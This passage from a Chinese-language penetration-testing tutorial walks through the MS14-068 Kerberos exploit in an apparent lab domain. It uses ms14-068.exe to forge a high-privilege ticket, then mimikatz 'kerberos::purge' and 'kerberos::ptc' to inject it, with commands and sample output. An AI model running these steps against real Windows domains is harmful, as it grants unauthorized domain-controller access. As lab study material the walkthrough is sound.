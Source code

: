 **生成高权限票据**

使用 PyKEK 生成高权限票据的命令，

```cmd
ms14-068.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码
```

```cmd
C:\Users\user01\Desktop>MS14-068.exe -u user01@sec.com -s  S-1-5-21-1761316379-1696655578-4051991088-1106 -d 192.168.2.10 -p 123.com
  [+] Building AS-REQ for 192.168.2.10... Done!
  [+] Sending AS-REQ to 192.168.2.10... Done!
  [+] Receiving AS-REP from 192.168.2.10... Done!
  [+] Parsing AS-REP from 192.168.2.10... Done!
  [+] Building TGS-REQ for 192.168.2.10... Done!
  [+] Sending TGS-REQ to 192.168.2.10... Done!
  [+] Receiving TGS-REP from 192.168.2.10... Done!
  [+] Parsing TGS-REP from 192.168.2.10... Done!
  [+] Creating ccache file 'TGT_user01@sec.com.ccache'... Done!

```

在当前目录下生成 `TGT_user01@sec.com.ccache` 的票据文件。

**查看注入前的权限**

想列出域控制器c 盘目录，但是无权限。

```cmd
C:\Users\user01\Desktop>dir \\192.168.2.10\C$
拒绝访问。
```

**清除内存中的所有票据**

打开 mimikatz , 输入命令

```cmd
kerberos::purge
```

![image-20210225113326497](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210225113326497.png)

清除内存中的票据信息。

当看到 如图回显，表示清楚成功。

**将高权限票据注入内存**

mimikatz 中输入命令,回显”Injecting ticket:OK" ,表示注入成功。

```cmd
kerberos::ptc "TGT_user01@sec.com.ccache"
```

![image-20210225113743848](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210225113743848.png)

**验证权限**
